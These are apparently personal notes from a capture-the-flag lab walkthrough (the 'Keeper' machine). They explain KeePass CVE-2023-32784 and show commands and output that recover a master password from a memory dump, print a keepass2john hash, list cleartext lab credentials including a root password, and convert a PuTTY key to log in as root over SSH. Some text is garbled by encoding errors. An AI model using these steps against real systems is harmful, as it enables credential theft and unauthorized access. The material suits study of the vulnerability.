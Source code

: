 # Keeper&#x20;

New user. Initial password set to Welcome2023!\
\----------------------------------------------------\
KeePass CVE-2023-32784: Detection of Processes Memory Dump

\- - -- - - - - - - -- - - - - -- - - - - -- - - - - -- - -

allows the recovery of the cleartext master password from a memory dump. The memory dump can be a KeePass process dump, swap file (pagefile.sys), hibernation file (hiberfil.sys), or RAM dump of the entire system.

KeePass 2.X uses a custom-developed text box for password entry, SecureTextBoxEx. The flaw exploited in this CVE is that for every character typed, a leftover string is created in memory. Because of how .NET works, it is nearly impossible to get rid of it once it gets created. For example, when â€œPasswordâ€ is typed, it will result in these leftover strings: â€¢a, â€¢â€¢s, â€¢â€¢â€¢s, â€¢â€¢â€¢â€¢w, â€¢â€¢â€¢â€¢â€¢o, â€¢â€¢â€¢â€¢â€¢â€¢r, â€¢â€¢â€¢â€¢â€¢â€¢â€¢d. The first character cannot be recovered.\\

\------------------------------------------------------

**kpcli --> keepass cli**

\==========================

`python3 poc.py -d KeePassdump.dmp`

\
2023-10-07 16:04:09,530 \[.] \[main] Opened KeePassdump.dmp\
Possible password: â—â—dgrâ—d med flâ—de\\

\--------------------------------------------------\
**keepass2john == ?**

`keepass2john -k KeePassdump.dmp passcodes.kdbx`

\
passcodes:$keepass$\*2\*60000\*0\*5d7b4747e5a278d572fb0a66fe187ae5d74a0e2f56a2aaaf4c4f2b8ca342597d\*5b7ec1cf6889266a388abe398d7990a294bf2a581156f7a7452b4074479bdea7\*08500fa5a52622ab89b0addfedd5a05c\*411593ef0846fc1bb3db4f9bab515b42e58ade0c25096d15f090b0fe10161125\*a4842b416f14723513c5fb704a2f49024a70818e786f07e68e82a6d3d7cdbcdc\*1\*64\*c998c35aa687b10cbeeaa70fb58a4f5728080bf6f1473efb848aeab39bce4eef

\==========================================

`python3 keepass_dump.py -f KeePassdump.dmp`

\
\[\*] Searching for masterkey characters\
\[-] Couldn't find jump points in file. Scanning with slower method.\
\[\*] 0: {UNKNOWN}\
\[\*] 2: d\
\[\*] 3: g\
\[\*] 4: r\
\[\*] 6: d\
\[\*] 7:\
\[\*] 8: m\
\[\*] 9: e\
\[\*] 10: d\
\[\*] 11:\
\[\*] 12: f\
\[\*] 13: l\
\[\*] 15: d\
\[\*] 16: e\
\[\*] Extracted: {UNKNOWN}dgrd med flde

\--------------------------------

Passwd: â—â—dgrâ—d med flâ—de\\

rÃ¸dgrÃ¸d med flÃ¸de

\----------passwd from the dump -----

Welcome2023!\
F4><3K0nd!\
12345

\-----------

username: root\
passwd: F4><3K0nd!

\=========================

To convert putty user key file to ssh private key

`puttygen server.ppk -O private-openssh -o id_rsa`

\--------------------------------------------

`ssh -i id_rsa root@machineip`

boom !!
